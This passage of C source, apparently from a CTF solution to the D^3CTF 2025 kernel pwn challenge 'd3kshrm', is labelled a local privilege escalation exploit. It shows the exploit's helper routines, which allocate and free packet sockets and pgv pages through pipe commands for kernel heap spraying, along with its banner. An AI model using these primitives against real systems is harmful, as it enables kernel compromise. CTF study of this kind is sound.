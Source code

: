 ```c
        .idx = idx,
        .cmd = PGV_CMD_ALLOC_SOCKET,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int destroy_pgv_socket(int idx)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = PGV_CMD_FREE_SOCKET,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int alloc_page(int idx, unsigned int size, unsigned int nr)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = PGV_CMD_ALLOC_PAGE,
        .size = size,
        .nr = nr,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int free_page(int idx)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = PGV_CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    usleep(10000);

    return ret;
}

void banner(void)
{
    puts(SUCCESS_MSG("-------- D^3CTF2025::Pwn - d3kshrm --------") "\n"
    INFO_MSG("--------     Unintended Solution    --------\n")
    INFO_MSG("--------      Author: ")"arttnba3"INFO_MSG("      --------") "\n"
    SUCCESS_MSG("-------- Local Privilege Escalation --------\n"));
```